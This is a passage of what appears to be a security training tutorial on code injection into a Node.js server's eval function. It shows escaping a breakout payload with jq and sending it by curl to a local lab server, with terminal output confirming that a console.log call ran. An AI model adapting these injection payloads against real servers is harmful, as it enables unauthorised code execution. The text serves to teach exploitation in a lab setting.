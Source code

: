 We can now see the the `.update` function is properly closed before our injection, and the code should execute correctly. We should also ensure all single quotes, double quotes, and parenthesis are even. We can use syntax highlighting to spot any errors with the code. In this case, everything is even. In the next section, we will continue with steps 4 and 5, and ensure that our payload is successfully injected, and goes into `eval` exactly as we send it.


# Code Injection

* * *

So far, we have prepared our payload, but have not sent it yet. Before sending it, however, we must escape all special characters. Finally, using local debugging, we will ensure that our payload goes into the `eval` function exactly as we sent it.

* * *

## 4\. Escaping/Encoding Special Characters

As discussed in the `Syntax Errors` section, when sending our command, we have to escape each special character, including escaping ' `\`' and ' `"`'. Manually escaping each special character can become confusing with large payloads. So, we will use " `jq -aR .`" to escape our payloads, as follows:

```shell
jq -aR .

"); console.log("successful injection"); //
"\"); console.log(\"successful injection\"); //"

```

Now, we can copy the escaped payload and use as the value in our JSON object `{"key":value}`.

Tip: When dealing with cURL, it may be better to url encode key characters within the value of the JSON object, like single quotes, which can be encoded as %27.

Finally, we can send it using `curl`, as we did in the `Local Debugging` sections:

```shell
curl http://127.0.0.1:21440/admin -X POST -d '{"key":"\"); console.log(\"successful injection\"); //"}'

```

We send our command, and get the following in our `server.js` terminal window:

```shell
node server.js

Server is running on http://0.0.0.0:21440
successful injection

```

We have successfully injected our code into the server, and executed `console.log`.

* * *
